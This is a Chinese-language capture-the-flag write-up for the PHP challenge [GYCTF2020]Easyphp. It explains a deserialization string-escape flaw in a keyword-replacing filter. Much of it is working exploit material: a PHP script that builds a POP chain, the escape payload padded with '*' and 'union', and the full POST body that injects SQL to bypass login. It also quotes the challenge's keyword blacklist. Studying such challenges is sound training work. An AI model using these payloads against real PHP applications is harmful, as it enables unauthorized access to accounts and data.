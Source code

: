 # \[GYCTF2020]Easyphp

## \[GYCTF2020]Easyphp

## 考点

* 反序列化逃逸

## wp

www.zip给了源码

大概的逻辑就是index.php判断有没有登录，登录就转到update.php，没有登录就转到登录页面

在登录页面获取参数，并做黑名单过滤，然后执行`User::login()`

```
preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['***'])
```

在`User::login()`中连接数据库，然后用预编译的方式执行sql语句获取username和password，这里基本上封死了sql注入。如果登录成功就让`$_SESSION['login']`为1，然后跳转到update.php

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');

if($this->id)        $_SESSION['login']=1;
```

再看update.php，先判断`$_SESSION['login']`是否为1，不为1就\*\*`echo`**而不是**`die`\*\*。那后面的代码还可以执行啊。

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1).png>)

然后到`User::update()`，先反序列化`Info`类再实例化`UpdateHelper`

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里获取flag的条件是`$_SESSION['login']`为1

```php
if($_SESSION['login']===1){
  require_once("flag.php");
  echo $flag;
}
```

而`$_SESSION['login']`为1要求成功登录，即token为admin或者账号密码正确

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
if($this->id){
$_SESSION['id']=$this->id;
$_SESSION['login']=1;}
class dbCtrl
{
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

从`User::update()`入手，它的第一行`$Info=unserialize($this->getNewinfo());`如下，一个典型的逃逸

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
unserialize(safe(serialize(new Info($age,$nickname))));
```

可以利用逃逸，插入UpdateHelper类，触发它的`__destruct()`函数，再去触发User类的`__toString()`，最后触发Info类的`__call()`，让它执行`dbCtrl::login()`，这样就能够控制sql语句，实现登录了

pop链

```php
<?php
class dbCtrl{}
$d = new dbCtrl();
$d->name = "admin";// admin这个用户名是存在的，可以试出来
$d->password = "1";// 与select语句中的密码保持一致，绕过登录

class Info{}
$c = new Info();
$c->CtrlCase = $d;

class User{}
$b = new User();
$b->nickname = $c;
$b->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

class UpdateHelper{}
$a = new UpdateHelper();
$a->sql = $b;

echo serialize($a);
// O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

逃逸插入pop链，不断调整`*`或者`union`的数量，让插入pop链的结果符合反序列化条件

```php
<?php
class Info{}
$b = new Info();
$b->age = "123";
$b->nickname = '***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}';


$s = serialize($b);
echo $s."<br>";

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
echo safe($s)."<br>";
/*
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
*/
```

在update.php中POST

```
age=123&nickname=***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

![](<../../.gitbook/assets/image (26) (1) (1) (1).png>)

这会让`dbCtrl::login()`成功执行，把token赋值为admin。

```php
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
```

再用admin加上任意密码登录即可

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)
